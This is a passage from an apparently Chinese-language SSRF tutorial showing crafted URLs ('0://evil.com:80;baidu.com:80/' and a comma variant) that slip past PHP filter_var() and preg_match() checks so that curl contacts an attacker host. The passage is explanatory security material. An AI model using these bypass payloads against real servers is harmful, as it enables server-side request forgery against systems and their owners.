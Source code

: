 ​                                                                              过滤器被使用0代替HTTP bypass掉了



完美！成功绕过filter_var() 和preg_match()，但是curl依然请求不到evil.com页面。。。。为什么呢？不如来尝试下使用别的语法，尽量让 `;baidu.com` 不被解析成主机名的一部分，例如通过制定目标端口：

```
0://evil.com:80;baidu.com:80/
```

<img src=".\图片\Snipaste_2023-04-03_18-32-19.png" alt="Snipaste_2023-04-03_18-32-19" style="zoom:80%;" />

​                                                                          SSRF使curl对evil.com进行了请求而不是baidu.com



耶，我们看到curl已经开始连接evil.com，使用逗号代替分号会出现同样的情况 ：

```
0://evil.com:80,baidu.com:80/
```

<img src=".\图片\Snipaste_2023-04-03_18-34-20.png" alt="Snipaste_2023-04-03_18-34-20" style="zoom:80%;" />
